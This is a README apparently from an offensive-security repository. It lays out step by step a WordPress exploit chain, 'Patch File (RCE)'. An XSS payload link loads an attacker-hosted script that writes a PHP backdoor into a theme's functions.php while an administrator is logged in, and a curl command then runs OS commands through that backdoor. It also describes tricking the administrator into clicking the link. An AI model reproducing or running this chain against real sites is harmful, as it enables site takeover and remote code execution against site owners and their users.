 # [authn] Patch File (RCE)

## Test Environment

### Web Browsers (20250426)

* [x] Mozilla Firefox 137.0.2 (64-bit)
* [x] Google Chrome 135.0.7049.115 (64-bit)
* [x] Microsoft Edge 135.0.3179.98 (64-bit)

## Exploitation Steps

1. [setup exploit] identify target WordPress theme

    *(enumerate installed WordPress themes installed on target site)*

2. [setup exploit] change payload variable values (`patchFileWP.js`)

    `phpBdURL` - URL of PHP backdoor to be installed on target site

    `themeName` - WordPress theme name to be patched

    `wpRoot` - path to WordPress installation on the target system (e.g. `"/wordpress"`)

3. [setup exploit] setup web server (to serve the payload/backdoor)

    * **NOTE**: update/customize PHP backdoor in `bd.txt`

4. [social engineering attack] victim user (with administrative privileges) logs in

    http://192.168.5.10/wp-login.php

5. [social engineering attack] victim user clicks link

    ```
    http://192.168.5.10/rxss.php?q=<script src=http://192.168.5.5/patchFileWP.js></script>
    ```

    * **NOTES**:
      * `192.168.5.10` - target WordPress site
      * `192.168.5.5` - web server hosting the payload

6. [post exploit] execute OS command

    ```
    curl "http://192.168.5.10/wp-content/themes/twentytwentyfive/functions.php?pass=test&cmd=id"
    ```

    * **NOTE**: endpoint URL constructed based on specified WordPress theme name + `functions.php`

7. [restore file] restore file via GUI

    *WordPress ➔ Tools ➔ Theme File Editor ➔ Select theme to edit - (select target theme from droplist) ➔ Select ➔ Theme Functions (functions.php) ➔ (remove backdoor) ➔ Update File*

## Screenshot

* **NOTE**: the screenshot covers steps 2 to 6 from the "Exploitation Steps" chapter

<p align="center">
  <kbd>
    <picture>
      <source media="" srcset="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/WordPress/PatchFile/screenshots/WordPress_-_patch_file_-_1-1.png">
      <img src="https://github.com/lighthouseitsecurity/weaponizedXSS/raw/main/CMS/WordPress/PatchFile/screenshots/WordPress_-_patch_file_-_1-1.png">
    </picture>
  </kbd>
</p>

## Video

https://github.com/user-attachments/assets/f09429bc-da83-476f-9250-91ee15f7f4b0
